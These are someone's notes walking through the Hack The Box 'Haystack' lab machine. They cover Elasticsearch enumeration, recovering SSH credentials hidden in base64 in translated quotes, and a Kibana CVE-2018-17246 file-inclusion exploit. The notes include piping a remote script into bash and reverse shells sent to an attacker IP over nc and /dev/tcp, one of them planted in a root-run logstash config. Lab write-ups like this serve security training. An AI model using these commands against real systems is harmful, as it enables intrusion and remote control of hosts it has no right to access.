 # HTB_Ippsec_Note

# HayStack Machine - 10.10.10.115

nmap -sC -sV -oA nmap/haystack 10.10.10.115

Navigate to 10.10.10.115 --> Simple Photo

Lets check robots.txt

Navigate to 10.10.10.115/robots.txt --> 404 not Found

Save the image and run tools like exiftool etc.

root@kali: exiftool ~/Downloads/needle.jpg --> File Modification Date --Today

Sometimes Downloading file via browser changes the modification Meta Data

So Try downloading file via wget or curl

root@kali: wget http://10.10.10.115/needle.jpg

root@kali: exiftool needle.jpg  --> File Modification Date -- 2019:01:25

Navigate to 10.10.10.115:9200 --> You'll see a json output (Clustername: Elastic search version 6.4.2)

Google

Elastic Search api 6.4

Kibana is front End to this.

In Elastic search API documentation--> 

Cat APIs

10.10.10.115:9200/_cat/master

10.10.10.115:9200/_cat/master?v--> For verbose


You can also try --> curl http://10.10.10.115:9200/_cat/master?v

To know the commands --> curl http://10.10.10.115:9200/_cat

For DataBases --> curl http://10.10.10.115:9200/_cat/indices

For Verbose Databases --> curl http://10.10.10.115:9200/_cat/indices?v

For Help --> curl http://10.10.10.115:9200/_cat/indices?help

DOC APIs

curl http://10.10.10.115:9200/quotes/_doc/1
curl http://10.10.10.115:9200/quotes/_doc/2
curl http://10.10.10.115:9200/quotes/_doc/3

curl http://10.10.10.115:9200/quotes/_search 


curl http://10.10.10.115:9200/quotes/_search | jq . ---> To see beautified Json

Or you can use

curl http://10.10.10.115:9200/quotes/_search?pretty

curl -s http://10.10.10.115:9200/quotes/_search | jq . ---> -s for silent--Removed curl headers from output

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq . --> Only return One Item

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq .hits --> One Object down in JSON

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits' --> One More level down in JSON

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits[0]' --> Get rit of "[" because with 0 we are refering to first json element.

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits[0] .source' --> Next Item down 

curl -s http://10.10.10.115:9200/quotes/_search?size=1 | jq '.hits .hits[0] .source .quote'

curl -s http://10.10.10.115:9200/quotes/_search?size=253 | jq '.hits .hits[] .source .quote' --> .hits[]--> Will give all quotes


curl http://10.10.10.115:9200/_cat/indices?v

green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb      
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0      
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0     

curl -s http://10.10.10.115:9200/bank/_search?size=1 | jq '.'--> For bank info

curl -s http://10.10.10.115:9200/bank/_search?size=1000 | jq '.hits .hits[] ._source .email'


curl -s http://10.10.10.115:9200/quotes/_search?size=253 | jq '.hits .hits[] .source .quote' --> Result of this is in spanish


vi exploit.py

import requests, json

r = requests.get('http://10.10.10.115:9200/quotes/_search?size=1')
quotes = json.loads(r.text)

for quote in quotes['hits']['hits']:
	q = quote['_source']['quote']
	print(q)
	print() --> for Line break between two quotes


*** Google --> Python translate google" --> https://pypi.org/project/googletrans/

#pip3 install googletrans


vi exploit.py

import requests, json
from googletrans import Translator

r = requests.get('http://10.10.10.115:9200/quotes/_search?size=253')
quotes = json.loads(r.text)
translator = Translator()

for quote in quotes['hits']['hits']:
	q = quote['_source']['quote']
	qt = (translator.translate(q)).text
	print(qt)
	print() --> for Line break between two quotes



python3 exploit.py | tee quotes-translated.txt --> tee will print the output on console and in file simultaneouslt

cat quotes-translated.txt | grep -i password --> -i for ignore case
cat quotes-translated.txt | grep -i secret
cat quotes-translated.txt | grep -i key --> Give Some base64 encode values

\# echo -n dXnlcjogc2VjdXJpdHkg | base64 -d --> user : security
\# echo -n <other base64 value> | base64 -d --> pass : spanish.is.key


ssh security@10.10.10.115

password - spanish.is.key

security@haystack 

[security@haystack $] curl 10.10.14.3:8000/LinEnum.sh | bash


* Result showed

127.0.0.1:5601 - Kibana generally

Generally logstash has its own user but here it is running as root

[security@haystack $] curl 127.0.0.1:5601

ssh port forwarding using -L

or shortcut

[security@haystack $] ~C
ssh> -L 5602:127.0.0.1:5601
Forwarding port.


in New terminal 

root@kali# ss -ln

--> we are listening on 127.0.0.1:5602

Now navigate to kali browser and open 127.0.0.1:5602--> You'll kibana loading

Management tab --> Kibana version 6.4.2

Google -> Kibana 6.4.2 exploit

 https://github.com/mpgn/CVE-2018-17246

[security@haystack $] cd /dev/shm
[security@haystack $] vi rev.js

paste the expoit js code given in exploit and edit your IP to get reverse shell

root@kali# nc -nlvp 1337


root@kali# curl 'http://localhost:5602/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../.../../../../dev/shm/rev.js'



root@kali# nc -nlvp 1337

ls 

--> we got reverse shell

python -c 'import pty;pty.spawn("/bin/bash")'

CTRL+Z

root@kali# stty raw -echo

FG --> you won't see this getting typed

bash-4.25$ whoami
kibana

bash-4.25$ find / -user kibana -ls 2>/dev/null --> To see what we have access to
bash-4.25$ find / -group kibana -ls 2>/dev/null --> To see what we have access to

bash-4.25$ ls /etc/logstash
bash-4.25$ cd /etc/logstash
bash-4.25$ ls -la 

cd conf.d
cat filter.conf
cat input.conf
cat output.conf

export Term=xterm --> Now you can clear the screen

vi /opt/kibana/logstash_pleasesubscribe

Ejecutar comando : touch /dev/shm/LeaveAComment
Ejecutar comando : bash -i >& /dev/tcp/10.10.14.3/9001 0>&1

bash-4.25$ watch -n 1 ls -la /dev/shm


root@kali# nc -nlvp 9001

[root@haystack ~]#

